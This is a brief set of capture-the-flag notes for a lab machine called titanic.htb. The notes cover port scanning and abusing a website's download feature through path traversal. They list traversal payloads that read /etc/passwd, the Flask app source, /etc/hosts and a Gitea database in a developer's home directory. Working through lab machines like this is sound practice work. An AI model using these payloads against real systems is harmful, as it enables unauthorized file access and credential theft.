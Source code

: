 
## Recon : 

### nmap : 

http : 80
ssh : 80

### web : 

explore the website .
find a book function .
download something .

we see .json , so it is a file => try LFI : path traversel : 

../../../../../../etc/passwd

../../../../../../proc/self/cwd/app.py  : because its a flask website , we suppose that its the source code stored here .

../../../../../../etc/hosts => dev.titanic.htb

find repositery => files ( docker )

 ../../../../../home/developer/gitea/data/gitea/gitea.db 